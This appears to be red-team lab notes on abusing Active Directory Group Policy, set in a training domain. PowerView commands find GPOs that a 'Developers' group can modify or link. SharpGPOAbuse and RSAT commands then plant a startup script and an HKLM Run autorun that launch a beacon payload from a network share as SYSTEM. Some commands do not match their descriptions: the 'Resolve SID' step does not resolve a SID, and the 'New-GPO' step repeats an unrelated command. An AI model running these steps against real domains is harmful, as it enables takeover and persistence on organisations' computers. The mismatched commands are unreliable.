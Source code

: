 # Modifying an Existing GPO

Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with Get-DomainGPO and check the ACL of each one with Get-DomainObjectAcl.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.

    powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

Resolve SID of the principle:

    powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

This shows us that members of the "Developers" group can modify "Vulnerable GPO".
We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the gPLink property of the OU itself.  The Get-DomainOU cmdlet has a handy -GPLink parameter which takes a GPO GUID.

    powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName

Finally, to get the computers in an OU, we can use Get-DomainComputer and use the OU's distinguished name as a search base.

    powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).

    ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

We can do that manually or use an automated tool such as SharpGPOAbuse, which has several abuses built into it. Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).

    execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"

Note that you can find this software share using PowerView:

    powershell Find-DomainShare -CheckShareAccess

Log into the console of Workstation 1 and run gpupdate /force from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

# Create and Link a GPO

Group Policy Objects are stored in CN=Policies,CN=System - principals that can create new GPOs in the domain have the "Create groupPolicyContainer objects" privilege over this object.  We can find these with PowerView's Get-DomainObjectAcl cmdlet by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.

    powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

This shows that members of the "Developers" group can create new GPOs. Being able to create a GPO doesn't achieve anything unless it can be linked to an OU.  The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges.

This is also something we can find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again.  Iterate over each one looking for instances of "WriteProperty" over "GP-Link" .

    powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.

GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The Get-Module cmdlet will show if they are present.
    
    powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Use the New-GPO cmdlet to create and link a new GPO.

    powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Some abuses can be implemented directly using RSAT.  For example, the Set-GPPrefRegistryValue cmdlet can be used to add an HKLM autorun key to the registry.

    powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString

Next, apply the GPO to the target OU. Remember that HKLM autoruns require a reboot to execute.

    powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"



























  
